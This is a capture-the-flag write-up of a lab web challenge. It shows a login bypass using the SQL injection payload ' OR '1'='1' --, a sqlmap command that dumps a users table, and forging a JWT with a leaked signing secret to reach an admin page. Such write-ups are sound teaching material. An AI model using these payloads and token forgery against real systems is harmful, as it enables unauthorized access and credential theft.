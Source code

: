 # This_WEB_Too_Simple Write-up

## Summary

This write-up demonstrates the process of exploiting a web application to gain unauthorized admin access. The strategy involves using a SQL injection (SQLi) to bypass login authentication, extracting a secret key, and then modifying a JWT token to escalate privileges to an admin role.

## Steps

### 1. Discovery of `robots.txt`

The `robots.txt` file, located at the web server's root, contained directives that hinted at potential attack vectors:

```plaintext
User-agent: *
Disallow: /
Disallow: /login
Disallow: /admin
```

### 2. SQL Injection and Login

A SQL injection vulnerability was identified on the login page (`login.html`). The vulnerability is exploited as follows:

#### Manual SQL Injection

By entering a SQL injection payload in the login fields, authentication can be bypassed. For instance:

```sql
' OR '1'='1' --
```

This payload logs in as a non-admin user by bypassing the authentication check.

#### Automated SQL Injection with sqlmap

Alternatively, sqlmap can be used to exploit the vulnerability and extract database information:

```bash
sqlmap -r request.txt --ignore-code=401 -p username -D SQLite_masterdb -T users --dump
```

This command instructs sqlmap to ignore any HTTP 401 unauthorized error codes, target the `username` POST parameter, select the SQLite_masterdb database, list the contents of the `users` table, and dump the data.

After executing the sqlmap command, the structure of the database was retrieved, revealing a table named `users` with columns for `id`, `username`, and `password`. The SQL command used to create the `users` table is:

```
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password TEXT NOT NULL
)
```

Furthermore, an entry within the `users` table was extracted, indicating the presence of user credentials:

```
Database: <current>
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | user123  | user     |
+----+----------+----------+
```

### 3. Extracting the Secret Key

Post successful SQLi login, the application reveals a key, which is the secret used for signing JWT tokens. This key can be found in the application's response.

### 4. Modifying the JWT Token

With the secret key, visit [jwt.io](https://jwt.io) and paste the token in the Encoded section. Modify the `role` from non-admin to admin and use the secret key to regenerate a valid signature.

### 5. Accessing the Admin Page

With the modified admin JWT token, send a request to the `/admin` page. The admin page should now be accessible, revealing the flag.
